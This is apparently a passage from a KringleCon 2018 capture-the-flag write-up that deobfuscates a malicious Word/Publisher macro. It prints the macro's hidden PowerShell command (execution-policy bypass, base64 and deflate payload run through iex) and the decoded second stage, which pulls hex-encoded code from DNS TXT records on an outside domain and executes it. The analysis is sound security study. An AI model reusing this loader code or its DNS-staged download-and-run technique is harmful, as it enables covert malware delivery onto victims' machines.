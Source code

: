 So, we have 2 AutoExec (to match both Word and Publisher) and they try to launch the same command:

```
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Obj
ect; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Con
vert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/
1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdf
eHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zski
LPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+
JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.
Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"
```

It's a powershell launched in silent mode, with Execution Policy Bypass, which executes something that's both compressed and base64 encoded.
This means that we can grab the parameter section of the `iex` call (iex stands for Invoke-Execution) and analyze what the malware is trying to launch.

Important: `sal a New-Obj` set `a` as an alias for `New-Object`: we need to look for `a` calls inside the `iex` portion and correctly rewrite them.

File [`analyzed_malware_loader.ps1`](https://github.com/Simone-Zabberoni/kringlecon-2018-report/blob/master/9/analyzed_malware_loader.ps1):

```
$base64stuff = 'lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'

(New-Object IO.StreamReader(
    (New-Object IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String($base64stuff),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)
).ReadToEnd()
```

Launch it and it will return:

```
function H2A($a) {$o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}; return $o}; $f = "77616E6E616
36F6F6B69652E6D696E2E707331"; $h = ""; foreach ($i in 0..([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT
).strings, 10)-1)) {$h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings}; iex($(H2A $h | Out-string))
```

Ok, we need to lint and analyze this new portion of the malware:

File [`malware_stage2.ps1`](https://github.com/Simone-Zabberoni/kringlecon-2018-report/blob/master/9/malware_stage2.ps1):

```
function H2A($a) {
 $o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}; 
 return $o
};


$f = "77616E6E61636F6F6B69652E6D696E2E707331"; 
$h = ""; 

foreach ($i in 0..([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)) {
    $h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings}; 

iex($(H2A $h | Out-string))
```